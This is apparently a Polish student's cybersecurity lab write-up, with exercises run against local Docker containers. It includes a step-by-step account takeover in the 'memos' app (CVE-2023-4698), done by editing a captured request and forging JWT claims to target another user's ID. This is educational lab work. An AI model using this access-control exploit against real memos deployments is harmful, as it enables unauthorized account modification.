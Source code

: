 # Cyberbezpieczeństwo i Kryptografia - Lab 5

## Zadanie 0.1 
Błąd w podpowiedzi 0.1. Kontener słucha na swoim wewnętrznym porcie 80. 
### Komenda do uruchomienia kontenera:
`docker run -p 1101:80 docker.io/mazurkatarzyna/bsk-book-p1-ch0-ex01:latest`
###Komenda do poprawnego uwierzytelnienia
`curl -u kali:orange --basic http://127.0.0.1:1101`
###Komenda z błędnymi danymi
`curl -u kali:orange1 --basic http://127.0.0.1:1101`

Używane jest uwierzytelnianie basic authentication.


## Zadanie 0.3
Otrzymany wynik:
`b'pass:linuxrocks'`
login - pass
hasło - linuxrocks


## Zadanie 0.7

### Uruchomienie kontenera w dockerze
`docker run -p 1107:1107 docker.io/mazurkatarzyna/bsk-book-p1-ch0-ex07:latest`

### Rejestracja użytkownika
```
┌──(kali㉿kali)-[~]
└─$ curl -X POST -d "name=John" -d "email=john@example.com" -d "password=passwrod123"  http://127.0.0.1:1107/signup
Successfully registered.  
```

### Logowanie
```
┌──(kali㉿kali)-[~]
└─$ curl -X POST -d "name=John" -d "email=john@example.com" -d "password=passwrod123"  http://127.0.0.1:1107/login
{
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwdWJsaWNfaWQiOiI1MWZjYWQ2Mi0xYzU3LTQ0YjAtYWM1OC1jNzIyZjY4YzkwZTIiLCJleHAiOjE3MzYxNzYyODJ9.eqCLKVMWmsDV2WuM-GKztVqzO7kkhZZruyAbtUeFOqg"
}
```


### Dostanie się do panelu użytkownika:
```
└─$ curl -H "token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwdWJsaWNfaWQiOiI1MWZjYWQ2Mi0xYzU3LTQ0YjAtYWM1OC1jNzIyZjY4YzkwZTIiLCJleHAiOjE3MzYxNzYyODJ9.eqCLKVMWmsDV2WuM-GKztVqzO7kkhZZruyAbtUeFOqg" http://127.0.0.1:1107/user
{
  "message": "Token is missing !!"
}
```
Z jakiegoś powodu zwraca błąd, ale to pewnie kwestia implementacji i nazwania parametru.


## Zadanie 0.9
*Improper Access Control* do aplikacji *memos*. 
[Proof of Concept](https://github.com/mnqazi/CVE-2023-4698)

### Uruchomienie i konfiguracja kontenera. 
`docker run -p 2000:5230 docker.io/mazurkatarzyna/bsk-book-p1-ch0-ex09:latest`
Aplikacja *memos* słucha teraz na porcie 2000 localhosta. 
Uruchamiamy proxy Burpsuite Community Edition. Uruchamiamy wbudowaną w Burpsuite'a przeglądarkę. Następnie przechodzimy w przeglądarce na adres 127.0.0.1:2000 i rejestrujemy pierwszego użytkownika (hosta). Powiedzmy, że będzie mieć dane root/root.
Następnie wchodzimy w root > My Account > Member. W polu Create a member dodajemy dwóch użytkowników:
- student / student (id 2)
- bsk / bsk (id 3)
Wylogowujemy się z konta Hosta i logujemy na konto student / student. 
 
### Przechwycenie legitnego nagłówka zmiany danych
 
 W Burpsuite > Proxy uruchamiamy przechwytywanie pakietów.
 W panelu użytkownika student wchodzimy w My Account > Edit. Pojawia nam się popup. Zmienimy dane na username studenciak, nickname studenciak. 
 Zatwierdzamy requesta w proxy. Rzeczywiście, nazwa naszego użytkownika zmieniła się na studenciak. 
 
 Nasz request wygląda następująco:
 
```
 PATCH /api/user/2 HTTP/1.1
Host: 127.0.0.1:2000
Content-Length: 56
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
sec-ch-ua: "Not?A_Brand";v="99", "Chromium";v="130"
Content-Type: application/json
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Origin: http://127.0.0.1:2000
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:2000/
Accept-Encoding: gzip, deflate, br
Cookie: _csrf=6NNSZGAB9uITuXQ2vGYS9dYqTjz5Svpp; _csrf=6NNSZGAB9uITuXQ2vGYS9dYqTjz5Svpp; _csrf=6NNSZGAB9uITuXQ2vGYS9dYqTjz5Svpp; access-token=eyJhbGciOiJIUzI1NiIsImtpZCI6InYxIiwidHlwIjoiSldUIn0.eyJuYW1lIjoic3R1ZGVudCIsImlzcyI6Im1lbW9zIiwic3ViIjoiMiIsImF1ZCI6WyJ1c2VyLmFjY2Vzcy10b2tlbiJdLCJleHAiOjE3MzYyNjc4OTQsImlhdCI6MTczNjE4MTQ5NH0.tIg4LhiygzuIA9O27Uw_8lPii74vaNsaitEjhVr47VU; refresh-token=eyJhbGciOiJIUzI1NiIsImtpZCI6InYxIiwidHlwIjoiSldUIn0.eyJuYW1lIjoic3R1ZGVudCIsImlzcyI6Im1lbW9zIiwic3ViIjoiMiIsImF1ZCI6WyJ1c2VyLnJlZnJlc2gtdG9rZW4iXSwiZXhwIjoxNzM2Nzg2Mjk0LCJpYXQiOjE3MzYxODE0OTR9.U15qvIUdJrXxDdyjb2hjpN8mCDHX4FghF8SpnIIAB7g
Connection: keep-alive

{"id":2,"nickname":"studenciak","username":"studenciak"}
```

Wysyłamy go do Repeatera. 

### Przygotowanie nagłówka do przeprowadzenia ataku

Spróbujemy zmienić nazwę konta bsk na bezpieczenstwo. W tym celu:
1. Usuwamy wszystkie pliki Cookie poza `access-token` i `_csrf`. 
2. W `PATCH /api/user/id` ustawiamy wartość id na id atakowanego konta, w naszym wypadku - 3. 
3. Przy użyciu narzędzia takiego jak np. [token.dev](token.dev) modyfikujemy token JWT `access_token` w taki sposób, aby w polu `name` znajdowała się nazwa atakowanego konta, a w polu `sub` jego id. 
4. Modyfikujemy JSON tak, aby zawierał:
```
{"id":3,"nickname":"bezpieczenstwo","username":"bezpieczenstwo"}
```

Klikamy `Send` - wysyłamy tak spreparowane żądanie do serwera. Serwer odpowiada 
```
HTTP/1.1 200 OK
SNIP...
{
  "data": {
    "id": 3,
    "rowStatus": "NORMAL",
    "createdTs": 1736181419,
    "updatedTs": 1736182434,
    "username": "bezpieczenstwo",
    "role": "USER",
    "email": "",
    "nickname": "bezpieczenstwo",
    "openId": "d24bd48b-82b9-45d4-a3ec-495fff66b48d",
    "avatarUrl": "",
    "userSettingList": []
  }
}
```

### Sprawdzenie

Próbujemy zalogować się na konto bezpieczenstwo/bsk. Rzeczywiście, podane przez nas dane do logowania są poprawne. Username i hasło zostały więc zmienione. 


## Zadanie 0.10
[Proof of Concept](https://huntr.com/bounties/46881df7-eb41-4ce2-a78f-82de9bc4fc2d)
